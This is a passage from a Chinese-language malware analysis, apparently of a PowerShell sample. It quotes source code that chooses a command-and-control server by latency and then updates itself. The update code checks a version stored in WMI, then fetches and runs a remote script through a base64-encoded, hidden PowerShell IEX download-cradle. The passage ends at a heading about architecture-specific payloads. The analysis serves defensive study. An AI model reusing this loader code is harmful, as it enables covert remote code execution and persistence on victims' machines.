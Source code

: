 ```powershell linenums="31"
        if ($i -eq 0){
            if (($avgs[0] -le 300) -and ($avgs[0] -ne 0)){
                $nic = $se[0]
                break
            }
        }
        if ($i -eq 1){
            if ($avgs[1] -ne 0){
                if (($avgs[0] -le $avgs[1]) -and ($avgs[0] -ne 0)){
                    $nic = $se[0]
                    break
                }else{
                    $nic = $se[1]
                    break
                }
            }
        }
    }
}
```

107-126 行，更新恶意软件自身：

- 请求 C2 服务器上的 `/w/ver.txt` 获取远程版本号
- 从 WMI 类的 `Window_Core_Flush_Cach` 属性中获取本地版本号
- 如果版本相同，则退出脚本
- 如果版本不同，从 C2 服务器上获取 `/vercheck.ps1` 文件并使用 PowerShell 执行

```powershell linenums="107"
$nic=$nic+(':'+'443')
if($IsInstalled)
{
    $ver=(New-Object Net.WebClient).DownloadString("http://$nic/w/ver.txt").Trim()
    if($ver -ne $null){
        $ver_tmp=([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['ver'].Value
        if($ver -eq $ver_tmp){
            exit
        }
    }
}
if (Test-Wow64)
{
    $text = "IEX ((new-object net.webclient).downloadstring('http://$nic/vercheck.ps1'))"
    $base64 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($text))
    $id = (start-process -FilePath "$env:systemroot\Sysnative\WindowsPowerShell\v1.0\powershell.exe" -ArgumentList  "-nop -noni -w hidden -enc $base64" -WindowStyle Hidden -PassThru).id
    if (($id -ne '') -and ($id -ne $null)){
        exit
    }
}
```

127-131 行根据系统架构不同，下载执行不同的恶意文件：
